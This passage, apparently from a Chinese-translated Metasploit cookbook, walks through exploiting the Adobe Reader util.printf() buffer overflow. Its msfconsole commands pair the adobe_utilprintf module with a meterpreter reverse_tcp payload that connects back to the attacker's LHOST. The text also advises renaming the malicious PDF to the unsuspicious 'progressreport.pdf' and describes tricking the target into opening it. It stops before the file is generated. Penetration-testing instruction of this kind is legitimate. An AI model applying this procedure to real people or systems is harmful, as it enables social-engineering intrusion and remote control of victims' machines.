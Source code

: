 # Adobe Reader util.printf()缓冲区溢出

PDF 是用于共享文件和文档的最广泛使用的格式之一。因此，将其用作利用目标机器的潜在武器可能是一个有益的想法。Adobe Reader 是最流行的 PDF 文件阅读工具。我们将讨论的利用是存在于 Adobe Reader 8.1.3 版本之前的漏洞。利用的工作原理是创建一个恶意的 PDF 文件，当在 Adobe Reader 的易受攻击版本中打开时，会导致缓冲区溢出，并允许任意代码执行。

## 准备工作

利用过程与本章迄今讨论的利用非常相似。几乎所有客户端攻击都以类似的方式工作，我们首先生成一个恶意文件/链接，然后以某种方式要求目标用户在其机器上执行它。因此，客户端攻击也涉及社会工程。让我们继续进行这次利用。在这里，我们的目标机器是运行 Adobe Reader 8.1 的 Windows XP SP3。

我们将从启动我们的 msfconsole 开始，并使用模块`exploit/windows/fileformat/adobe_utilprintf`和有效载荷模块`windows/meterpreter/reverse_tcp`。

## 如何做...

我们将从选择漏洞利用并将其设置为活动开始。然后，我们将设置有效载荷。在选择漏洞利用和有效载荷之后，我们的下一步将是传递执行所需的各种参数值。所以，让我们继续在 msfconsole 上执行这些步骤。

```
msf > use exploit/windows/fileformat/adobe_utilprintf
msf exploit(adobe_utilprintf) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(adobe_utilprintf) > show options
Module options (exploit/windows/fileformat/adobe_utilprintf):
Name Current Setting Required Description
---- --------------- -------- -----------
FILENAME msf.pdf yes The file name.
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: seh..
LHOST yes The listen address
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Adobe Reader v8.1.2 (Windows XP SP3 English) 
```

如你所见，目标版本的 Adobe Reader 被列为 8.1.2，操作系统被标记为 Windows XP SP3。因此，这次漏洞利用的成功将在很大程度上取决于目标使用的 Adobe Reader 版本或操作系统。

漏洞利用模块包含一个带有默认值的参数`FILENAME`。这个参数决定了将要创建的恶意 PDF 文件的名称。让我们将其值更改为一些不太可疑的东西。同时，我们还必须在`LHOST`参数中传递本地机器的 IP 地址。

```
msf exploit(adobe_utilprintf) > set FILENAME progressreport.pdf
FILENAME => progressreprt.pdf
msf exploit(adobe_utilprintf) > set LHOST 192.168.56.101
LHOST => 192.168.56.101 
```

现在我们已经准备好执行漏洞利用命令并生成恶意 PDF 文件，这将用于我们的客户端攻击。
